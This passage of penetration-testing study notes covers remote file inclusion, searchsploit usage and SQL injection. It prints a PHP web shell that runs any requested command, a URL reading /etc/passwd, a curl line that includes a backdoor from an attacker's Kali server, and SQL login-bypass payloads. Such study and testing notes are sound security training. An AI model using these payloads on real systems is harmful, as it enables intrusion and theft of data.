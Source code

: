 - There are other examples of LFI, including uploading a reverse shell to a web application and calling it through the URL. The above is just one example of the concept. 

## RFI
- Executing on our file on the server. 
- In PHP web applications, the allow_url_include option needs to be enabled to leverage RFI. This is rare and disabled by default in current versions of PHP
	- [Example backdoor script](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php):
    <?php

	    if(isset($_REQUEST['cmd'])){
	            echo "<pre>";
	            $cmd = ($_REQUEST['cmd']);
	            system($cmd);
	            echo "</pre>";
	            die;
	    }
	    ?>
	- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
	- curl"\<target>/index.php?page=http://\<kali server>/backdoor.php&cmd=ls"

### Public Exploits
SearchSploit/Exploit-DB
`searchsploit $searchterm`
`searchsploit -x $file 
`searchsploit -m $file` (copies to working directory)
- Exploits for searchsploit are found in `/usr/share/exploitdb/exploits/`

TIPS:
- `SEC_UNKNOWN_ISSUER` error can be bypassed with the `verify=False` param in Python

## SQLi
[Burp Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[Rana Kalil Video playlist](https://www.youtube.com/watch?v=X1X1UdaC_90&list=PLuyTk2_mYISItkbigDRkL9BFpyRenqrRJ)
[SQLi Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) from Codingo

### See Enumeration Section

### Notes
Goal is to initially find a location for SQLi and hopefully determine what the actual query is
Test possibles injection locations:
- `'`
- `' --`
- `' OR 1=1`
- `' OR 1=1; -- - `
- `'UNION SELECT * FROM users WHERE 1=1; -- -`
- Note that `--` is for comments meaning that everything after that (including what you don't see) will not be included, so if there is another clause, like 'AND variable = 1', it will return everything whether than variable is 1 or 0. 
Ex: `username=administrator'--'&password=password123`
	- This query should be SELECT x FROM y WHERE username = administrator and password = password123
	- But this comments out the last part and will simply SELECT the account of administrator, ignoring whether that was the correct password. 
